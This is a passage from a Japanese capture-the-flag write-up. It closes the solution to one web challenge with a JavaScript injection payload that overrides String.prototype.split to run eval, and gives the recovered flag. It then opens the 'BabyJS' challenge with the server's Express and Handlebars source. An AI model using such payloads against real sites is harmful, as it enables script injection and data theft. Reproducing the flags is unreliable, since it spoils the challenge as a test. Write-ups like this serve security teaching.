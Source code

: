 `/read?id=(記事の ID)#(function(x){return''[!x?'__proto__':'constructor'][x]})('constructor')('String.prototype.split=function(){eval(String(this));return[this]}')()` にアクセスさせると以下のような HTTP リクエストが来ました。

```
Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}
```

フラグが得られました。

```
Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}
```

## [Web 248] BabyJS (47 solves)
> Render me If you can.
> 
> Author: @posix
> 
> 添付ファイル: babyjs.tar.gz

`babyjs.tar.gz` を展開すると、以下のようなソースコードが出てきました。

```javascript
const express = require('express');
const path = require('path');
const crypto = require('crypto');
const fs = require('fs');
const app = express();

const SALT = crypto.randomBytes(64).toString('hex');
const FLAG = require('./config').FLAG;

app.set('view engine', 'html');
app.engine('html', require('hbs').__express);

if (!fs.existsSync(path.join('views', 'temp'))) {
    fs.mkdirSync(path.join('views', 'temp'));
}

app.use(express.urlencoded());
app.use((req, res, next) => {
    const { content } = req.body;

    req.userDir = crypto.createHash('md5').update(`${req.connection.remoteAddress}_${SALT}`).digest('hex');
    req.saveDir = path.join('views', 'temp', req.userDir);

    if (!fs.existsSync(req.saveDir)) {
        fs.mkdirSync(req.saveDir);
    }

    if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof content === 'string' && content.length > 200) {
        res.end('Request blocked');
        return;
    }

    next();
});

app.get('/', (req, res) => {
    const { p } = req.query;
    if (!p) res.redirect('/?p=index');
    else res.render(p, { FLAG, 'apple': 'mint' });
});

```